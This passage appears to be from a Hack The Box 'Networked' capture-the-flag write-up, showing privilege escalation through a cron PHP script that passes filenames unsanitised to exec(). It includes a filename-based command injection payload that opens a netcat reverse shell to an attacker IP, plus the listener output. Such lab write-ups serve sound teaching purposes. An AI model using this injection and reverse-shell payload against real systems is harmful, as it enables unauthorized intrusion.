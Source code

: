 Now we can suppose that if we manage hijack execution flow using check_attack.php, we will be able to spawn a shell as guly, since the crontab is installed for this user.  
If we open check_attack.php we can see the following:
```
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```
Analyzing the code, we can see that the script inspect the content of the directory /var/www/html/uploads/ if the file is not named using the common naming convention (validated by check_ip()) it will do stuff and ```exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");```. Now, since we can manipulate the ```$value``` parameter (because we can write inside /var/www/html/uploads/), we can create a file named as the payload that we want to execute:  
```
bash-4.2$ touch -- ';nc -c bash 10.10.14.24 4445;.php'  
```
the two dashes after touch, tells the command that we are done with the arguments and the only argument we are passing to the command is the actual filename that we want to create.  
The challenge here is to craft a filename containing the payload without slashes, because slashes in files are not allowed.  
once we create the file with the above command, we can listen for the shell to pop up:
```
root@kali:~/Documents/HTB/Boxes/Networked# nc -lvnp 4445                                                                                                                                                                                    
listening on [any] 4445 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.146] 39442
id                                                                                                                    
uid=1000(guly) gid=1000(guly) groups=1000(guly)
```
## Root